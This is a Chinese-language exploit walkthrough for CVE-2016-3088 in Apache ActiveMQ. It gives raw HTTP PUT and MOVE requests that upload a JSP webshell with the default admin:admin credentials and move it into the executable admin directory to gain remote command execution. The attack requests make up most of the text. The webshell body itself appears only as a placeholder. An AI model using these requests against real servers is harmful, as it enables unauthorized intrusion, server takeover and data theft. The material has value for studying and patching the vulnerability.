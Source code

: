 # （CVE-2016-3088）ActiveMQ 应用漏洞

> 原文：[http://book.iwonder.run/0day/ActiveMQ/1.html](http://book.iwonder.run/0day/ActiveMQ/1.html)

## 一、漏洞简介

ActiveMQ 是一款流行的开源消息服务器。默认情况下，ActiveMQ 服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有 put 上传权限，/admin/有执行权限，可找到绝对路径，使用 move 移动文件到/admin/

下面就是两步走，先是利用 put 上传文件到/fileserver/,然后移动到 move 到 admin 下面

所有返回为 204 就代表是成功，有个坑点：不要 put 同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ 默认开启 PUT 方法，当 fileserver 存在时我们可以上传 jspwebshell。

![image](img/7e44c16082ded6967972f820e49c9c9f.png)

```
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=

shell 
```

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![image](img/1977c775ba79c3e9216d9c81e08afef6.png)

```
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0

shell 
```

![image](img/17a75b465098680ca5d91539b39bc4cb.png)


